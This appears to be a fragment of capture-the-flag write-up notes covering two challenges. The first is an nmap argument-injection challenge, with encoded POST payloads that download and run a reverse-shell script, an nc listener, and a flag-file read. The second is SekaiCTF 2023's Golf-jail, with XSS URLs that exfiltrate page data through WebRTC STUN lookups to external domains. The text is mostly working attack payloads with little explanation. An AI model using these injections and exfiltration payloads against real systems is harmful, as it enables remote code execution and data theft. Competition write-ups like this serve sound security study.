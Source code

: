 ```bash
nmap -p 80 --script http-fetch --script-args http-fetch.destination=/tmp/,http-fetch.url=reverse_shell.nse YOUR_REMOTE_SERVER_IP
```

The actual payload is:

```bash
POST / HTTP/1.1

service=OUR_REMOTE_SERVER_IP%3A80%09--script%09http-fetch%09--script-args%09http-fetch.destination%3D/tmp/%2Chttp-fetch.url%3D/reverse_shell.nse
```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2024/01/21/18-10-39-82301c0270ea6c64b96b2f2de0690be4.png)

3、Execute the script just downloaded at the target server to get a shell.

```bash
# On your remote server
nc -nvlp 8080

#
nmap -p 80 --script=/tmp/OUR_REMOTE_SERVER_IP/80/reverse_shell.nse OUR_REMOTE_SERVER_IP

# actual payload
POST / HTTP/1.1

service=OUR_REMOTE_SERVER_IP%3A80%09--script%3D%2Ftmp/OUR_REMOTE_SERVER_IP%2F80%2Freverse_shell.nse
```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2024/01/21/18-10-39-6b7bc474c7d9c1a6699772907b4da1df.png)

![Untitled](https://api.2h0ng.wiki:443/noteimages/2024/01/21/18-10-39-eef5239ef6d2d0d00478dd582b853d60.png)

## Solution 2:

```bash
--script http-enum --script-args-file /flag-????????????????????????????????.txt -vvvvvv -dddddd
```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2024/01/21/18-10-39-0b2ca9c338d8ad07eb150f9645f8be9e.png)

# Golf-jail

[https://www.offensiveweb.com/docs/writeup/sekaictf2023_golfjail/](https://www.offensiveweb.com/docs/writeup/sekaictf2023_golfjail/)

```bash
Golf-jail: tiny xss + webrtc

https://golfjail.chals.sekai.team/?xss=%3Csvg/onload=eval(%60%27%60%2bbaseURI)%3E#';eval(decodeURIComponent('pc%20=%20new%20RTCPeerConnection({%22iceServers%22:[{%22urls%22:[%22stun:%22+document.firstChild.data.split(%22%22).map(x=%3Ex.charCodeAt(0).toString(16)).join(%22%22).substr(72, 8)+%22.%22+%22troll196.messwithdns.com%22]}]});pc.createOffer({offerToReceiveAudio:1}).then(o=%3Epc.setLocalDescription(o));'))

https://golfjail.chals.sekai.team/?xss=%3Csvg/onload=eval(%60%27%60%2bbaseURI)%3E#';eval(decodeURIComponent('pc%20=%20new%20RTCPeerConnection({%22iceServers%22:[{%22urls%22:[%22stun:%22+document.firstChild.data.split(%22%22).map(x=%3Ex.charCodeAt(0).toString(16)).join(%22%22).substr(72,%208)+%22.%22+%22bwbgc97xua0ki7t5srhm1w1mldr4fy3n.oastify.com%22]}]});pc.createOffer({offerToReceiveAudio:1}).then(o=%3Epc.setLocalDescription(o));'))

```